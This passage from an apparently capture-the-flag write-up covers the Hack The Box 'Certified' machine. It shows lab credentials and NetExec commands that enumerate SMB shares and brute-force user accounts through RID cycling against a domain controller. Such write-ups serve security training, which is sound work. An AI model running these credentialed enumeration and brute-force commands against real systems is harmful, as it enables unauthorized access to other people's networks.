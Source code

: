 ![image.png](/assets/images/Certified_HTB/image%203.png)

We observed that a certificate authority is running on the DC and also the SMB ports are open.

### SMB Enumeration

Credentials → **judith.mader:judith09**

As we have valid credentials lets just enumerate shares with them using NetExec.

```bash
nxc smb certified.htb -u 'judith.mader' -p 'judith09' --shares
```

![image.png](/assets/images/Certified_HTB/image%204.png)

No interesting share found within SMB.

Now lets just enumerate all the users using the RID Cycling attack.

```bash
nxc smb certified.htb -u 'judith.mader' -p 'judith09' --rid-brute
```
